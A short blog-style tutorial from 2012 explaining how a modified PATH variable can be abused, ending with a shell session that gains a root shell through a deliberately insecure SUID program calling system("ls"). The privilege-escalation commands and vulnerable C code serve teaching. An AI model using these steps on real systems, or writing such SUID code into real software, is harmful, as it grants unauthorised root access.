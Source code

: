 ```yaml
---
date: 2012-03-27
title: Exploiting environment variables
author: Alexandru Juncu
tags: exploit, PATH
---
```


Environment variables are sometimes very important when creating new
processes. For example, the `PATH` variable, that decides what executable to
run.

The easiest example to exploit `PATH` is to add the current directory `.` to
the list and overwrite common shell commands with something else.

	$ cat ./ls
	echo P0wn3d
	$ ls
	file1 file2
	$ ./ls
	P0wn3d
	$ export PATH=.:$PATH
	$ ls
	P0wn3d

But that can only affect the user's shell and can't do harm to the system.
What if some other conditions exist in the system, like the use of the
SUID bit. Normal processes are run as the user who executes them,
regardless of who owns the executable file (as long as the user who runs
the file can read the file). If the SUID is set on an executable file, any
process started from that executable will run as the owner of the file,
not shell owner. Here is an example of a very insecure source that
**shouldn't** be SUID-ed.


{% highlight cpp %}
#include<stdlib.h>

int main(void)
{
	system("ls");
	return 0;
}
{% endhighlight %}

Let's assume that the compiled executable from this code is owned by root,
SUID-ed and put into /bin with the name `ls_root`.

	$ ls -la /bin/ls_root
	-rwsrwsr-x 1 root root 7163 2012-03-21 12:28 /bin/ls_root

What this will enable, for example, is the listing of the `/root` directory
by any user.

	$ cd /root
	$ ls
	ls: cannot open directory .: Permission denied
	$ sudo ls
	test
	$ ls_root
	test

The code simply executes the `ls` command. But what if the `ls` command isn't
doing what it is supposed to do? Given this setup, as a normal user, we
can do the following:

	$ ln -s /bin/sh ls
	$ echo $$
	32655
	$ ls
	ls  ls_root.c
	$ ./ls
	$ echo $$
	32730
	$ whoami
	alexj
	$ exit
	$ export PATH=.:$PATH
	$ ls_root
	# whoami
	root
	#



The `ls_root` process will run the `ls` command. The `ls` command will run an
executable specified by the `PATH` variable (the executable is `/bin/ls`). But
if the `PATH` variable is changed in the current bash process, the
executable ran by the `ls` command will now become something else. If the
`ls_root` command is ran by root (with the help of the SUID bit), any of its
children will also be processes of root. So, if the `ls` command will now run
a bash executable, it will run a root owned executable that leads to root
access.

The SUID is something that is used in Linux systems (sudo and even ping use
it), but these executables are very carefully implemented so that normal
users can't exploit them.
